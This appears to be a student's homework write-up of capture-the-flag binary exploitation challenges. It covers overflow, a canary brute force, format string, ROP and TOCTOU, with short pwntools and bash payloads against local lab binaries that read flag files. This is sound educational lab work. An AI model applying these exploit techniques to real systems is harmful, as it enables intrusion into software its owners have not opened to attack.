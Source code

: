 # Homework 2
> User: `testing`
## Arithmetic Overflow
### Solution
sizes: `0804a060` (int) `24736` (overflow) `40799`

scanf(): `080484b0`

win(): `080485e6` (int) `134514150`
### Code

### Help Received

---

## Buffer Overflow
### Solution
Overloaded `gets()` function by trying with variations of length of `A`

### Code
```bash
python -c "print 'A'*44+'\xe6\x85\x04\x08'" | ./vuln
```

### Help Received
- [Buffer Overflow Attack](http://www.cse.scu.edu/~tschwarz/coen152_05/Lectures/BufferOverflow.html)

---

## Canary
### Solution
Canary: `_0^3`

Win address: `0x080486f6`
### Code
To get canary
```python
from pwn import *

for i in range(33, 127):
    proc = process('./vuln')
    proc.sendline('33')
    proc.sendline('a' * 32 + chr(i))
    ans = proc.recvall()
    if('Ok' in ans):
        print('Got it: ' + ans)
```

To get flag:
```py
from pwn import *

proc = process('./vuln')
proc.sendline('56')
proc.sendline('a' * 32 + '_0^3' + 'a' * 16 + '\xf6\x86\x04\x08')
ans = proc.recvall()

print('Got it: ' + ans)
```

### Help Received
- https://youtu.be/4Eir5gsSIM8

---

## File Descriptor Leak
### Solution
Find the file descriptor used by `vuln`, and read from it within the spawned bash shell

### Code
```bash
./vuln & ls -l /proc/$!/fd
read -u 4 a
echo $a
```
### Help Received
- Kyle Hutto in the GroupMe
- https://www.computerhope.com/unix/bash/read.htm
- https://www.cyberciti.biz/tips/linux-procfs-file-descriptors.html

---

## FMT-1
### Solution
Under `main`, looked for the filler addresses and found the one not listed in `leaky.c`

### Code
```bash
objdump -d leaky
```

### Help Received
From **Homework 2** description: 
>  This is a simple format string vulnerability. Find the key (a four byte hex value) on the stack. You have the source code, so you should be able to recognize it based on its neighbors.
---

## FMT-2
### Solution
Authenticated Address: `0x0804a040`
Used `%n` format specifier to write a value to the address `0x0804a040`

### Code
```bash
python -c 'print "\x40\xa0\x04\x08", %7$n' | ./vuln
```

### Help Received
- https://youtu.be/gzLPVkZbaPA

---

## ROP
### Solution
Had to find the addresses of `win_function1`, `win_function2`, `flag`, `pop; ret`, and `pop; pop; ret`

Piped in the instructions generated from the code below into `./vuln`

### Code
```py
buffer = 'A' * 28
win_function1 = '\xe6\x85\x04\x08'
win_function2 = '\xfd\x85\x04\x08'
pop_ret = '\x96\x88\x04\x08'
pop_pop_ret = '\x7a\x88\x04\x08'
bad = '\xAD\xAA\xAA\xBA'
flag = '\x6f\x86\x04\x08'
dead_bad = '\xAD\xBA\xAD\xDE'
print(buffer + win_function1 + win_function2 + pop_pop_ret + bad + dead_bad + flag + pop_ret + dead_bad)
```

Piped into `./vuln`

### Help Received
- https://www.youtube.com/watch?v=x8yVQrII5ng

---

## TOCTOU
### Solution
Created a file called `h`

Ran `vuln` and passed the filename `h`

During the 1 second waiting period, I removed the file `h` and replaced it with a symbolic link to `flag.txt`

### Code
```bash
./vuln

rm h && ln -s /problems/toctou_14_e7128c59c8f820595cdfbbbffdbdec35/flag.txt h
```

### Help Received
- Piazza